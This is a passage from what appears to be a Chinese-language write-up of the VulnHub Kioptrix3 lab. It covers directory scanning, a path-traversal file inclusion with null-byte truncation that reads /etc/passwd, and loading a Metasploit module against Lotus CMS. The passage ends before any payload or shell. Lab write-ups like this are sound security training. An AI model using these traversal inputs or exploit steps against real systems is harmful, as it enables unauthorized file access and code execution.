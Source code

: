 访问首页

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3-1.png)

### 目录扫描

```shell
dirb 192.168.160.131
```

发现`/phpmyadmin`目录，访问

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(35).png)

发现后台登录页面`/index.php?system=Admin`

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(36).png)

观察发现该网站cms为`Lotus CMS`。

## 漏洞挖掘

### 文件包含测试

访问80端口上的WEB服务。发现url中有点问题

```http
http://192.168.160.131/index.php?system=Blog
```

尝试`system=../../../../../etc/passwd`无反应

尝试%00.截断，成功读取/etc/passwd

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(37).png)

但是没有文件上传点，先放着

通过前面的探测，发现目标`cms`为`Lotuscms`

kali查询相关可利用漏洞信息

```shell
searchsploit LotusCMS
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/VulnHub%20-Kioptrix3%20(41).png)

成功查询到相关漏洞

直接msf一把嗦

```shell
#调用模块
use exploit/multi/http/lcms_php_exec
#查看载荷
show options
```
